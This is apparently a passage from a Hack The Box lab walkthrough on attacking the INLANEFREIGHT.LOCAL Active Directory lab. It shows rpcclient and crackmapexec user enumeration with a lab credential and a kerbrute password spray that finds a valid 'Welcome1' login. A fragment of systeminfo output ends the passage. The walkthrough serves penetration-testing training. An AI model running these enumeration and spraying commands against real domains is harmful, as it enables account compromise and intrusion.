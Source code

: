 └──╼ $rpcclient -U AB920 \\\\172.16.7.3

rpcclient $> enumdomusers

<SNIP>

​

OR

​

┌─[htb-student@skills-par01]─[~]

└──╼ $crackmapexec smb 172.16.7.3 -u AB920 -p weasal --users

SMB 172.16.7.3 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB 172.16.7.3 445 DC01 [+] INLANEFREIGHT.LOCAL\AB920:weasal

SMB 172.16.7.3 445 DC01 [+] Enumerated domain user(s)

<SNIP>

┌─[htb-student@skills-par01]─[~]

└──╼ $kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users Welcome1

__ __ __

/ /_____ _____/ /_ _______ __/ /____

/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \

/ ,< / __/ / / /_/ / / / /_/ / /_/ __/

/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/

​

Version: dev (9cfb81e) - 03/07/23 - Ronnie Flathers @ropnop

​

2023/03/07 19:49:15 > Using KDC(s):

2023/03/07 19:49:15 > 172.16.7.3:88

​

2023/03/07 19:49:31 > [+] VALID LOGIN: BR086@inlanefreight.local:Welcome1

2023/03/07 19:49:31 > Done! Tested 2901 logins (1 successes) in 16.427 seconds

​

OR

​

┌─[htb-student@skills-par01]─[~]

└──╼ $crackmapexec smb 172.16.7.3 -u users -p Welcome1 | grep +


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0
